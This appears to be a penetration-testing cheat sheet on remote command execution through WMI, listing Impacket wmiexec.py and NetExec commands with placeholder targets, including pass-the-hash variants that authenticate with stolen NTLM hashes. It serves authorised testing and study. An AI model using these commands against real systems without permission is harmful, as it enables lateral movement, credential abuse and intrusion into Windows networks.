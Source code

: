 # Unix Shell

## 01 - Impacket

- Authenticate via impacket script with WMIExec

`$ wmiexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ wmiexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ wmiexec.py <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash> [-codecs <codec>]

$ wmiexec.py <domain_name>/<username>@<IP> -hashes :<nt_hash> [-codecs <codec>]
```

## 02 - NetExec

`$ netexec smb <IP>/<CIDR> --exec-method wmiexec [-d <domain_name>] -u "<username>" -p "<password>"`

- Pass the Hash

`$ netexec smb <IP>/<CIDR> --exec-method wmiexec [-d <domain_name>] -u "<username>" -H <nt_hash>`

---
## References

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)